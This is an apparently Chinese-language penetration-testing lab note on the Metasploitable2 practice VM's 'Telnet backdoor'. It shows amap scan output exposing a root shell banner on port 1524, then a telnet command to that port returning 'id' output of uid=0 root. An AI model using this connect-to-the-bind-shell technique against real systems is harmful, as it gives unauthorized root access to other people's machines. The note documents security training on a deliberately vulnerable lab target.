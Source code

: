 ## Telnet后门

0、使用amap扫描，里面有这么一条信息

Unrecognized response from 192.168.199.169:1524/tcp (by trigger http) received.
Please send this output and the name of the application to vh@thc.org:
0000:  726f 6f74 406d 6574 6173 706c 6f69 7461    [ root@metasploita ]
0010:  626c 653a 2f23 20                          [ ble:/#           ]

我去一个tcp连接 通过http触发,还能用浏览器访问这个端口

```bash
#直接使用
[root@kali: ~#] telnet metasploitable2 1524 
root@metasploitable:/# root@metasploitable:/# id
uid=0(root) gid=0(root) groups=0(root)
```
